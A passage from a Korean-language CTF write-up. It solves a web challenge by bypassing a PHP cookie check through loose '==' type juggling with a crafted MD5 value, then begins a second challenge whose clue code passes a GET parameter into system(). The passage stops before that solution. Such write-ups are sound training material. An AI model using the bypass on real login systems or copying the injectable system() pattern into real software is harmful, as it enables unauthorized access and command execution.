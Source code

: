 일단 `$_COOKIE['session_chk']`는 32글자의 해시 형태가 되어야 합니다. 두 번째 조건을 보면 `$_COOKIE['session_chk']`가 `$_COOKIE['user_id']`의 MD5면 안 될 것 같은데, 세 번째 조건을 보면 또 `$_COOKIE[session_chk]`와 `$_COOKIE['user_id']`의 MD5를 검사합니다.

하지만 이 관리자는 `==`를 사용했습니다. PHP에서 `==`를 사용할 경우 양쪽 모두 문자열이더라도 한 쪽이라도 숫자처럼 보이면 양쪽 다 숫자 변환을 한 후 비교합니다.

적당히 MD5의 맨 앞 자리가 숫자가 되는 문자열을 찾습니다.

``` ruby
require 'digest/md5'
Digest::MD5.hexdigest('1aacesz')
# => "1a8c7efd14576c4ebd90c2214ecea5cd"
```

그리고 쿠키를 만들어 `user_id`에는 좀전의 `1aacesz`를, 하지만 `session_chk`에는 `00000000000000000000000000000001`을 넣습니다. 이때 두 번째 조건과 세 번째 조건은 아래와 같습니다.

``` php?start_inline=1
"dev_00000000000000000000000000000001" == "dev_1a8c7efd14576c4ebd90c2214ecea5cd"
"00000000000000000000000000000001" == "1a8c7efd14576c4ebd90c2214ecea5cd"
```

각각 거짓, 참이어서 `$_SESSION['id']`에 `1aacesz`가 들어가게 됩니다. Flag 메뉴에 들어가면 Flag를 볼 수 있습니다.

``` text
Flag:{UP_down_UP_UP_down}

Your level : Null
```

Flag는 `UP_down_UP_UP_down`입니다.

## <a id="a-letter-to-her"></a>A Letter To Her - WEB100

> [Link](http://web-prob.dkserver.wo.tc/letter_4f1ad94372c166c3cb9632ed5041849a/)

Flag 버튼을 누르면 `http://web-prob.dkserver.wo.tc/letter_4f1ad94372c166c3cb9632ed5041849a/flag.php`로 이동합니다. 다음과 같은 글이 보입니다.

> 주석에 있지롱 ^_______________________^

이 파일의 주석을 보아야 하는 것 같습니다. 하지만 PHP 파일이라서 보이지 않는 거겠죠. 메뉴의 Clue를 봅시다.

``` php?start_inline=1
if(preg_match("/[a-zA-Z]/",$_GET[letter])) exit("No Hack");

elseif(strlen($_GET[letter])>5) exit("No Hack");

system("head ./letter/" . $_GET[letter]);
```

어느 페이지에서 `letter`를 인자로 받고 있는 것 같습니다. Letter 페이지의 Letter 1, Letter 2, Letter 3, Letter 4가 각각 다음과 같은 URL을 갖습니다.

- `http://web-prob.dkserver.wo.tc/letter_4f1ad94372c166c3cb9632ed5041849a/?letter=1`
- `http://web-prob.dkserver.wo.tc/letter_4f1ad94372c166c3cb9632ed5041849a/?letter=2`
- `http://web-prob.dkserver.wo.tc/letter_4f1ad94372c166c3cb9632ed5041849a/?letter=3`
- `http://web-prob.dkserver.wo.tc/letter_4f1ad94372c166c3cb9632ed5041849a/?letter=4`
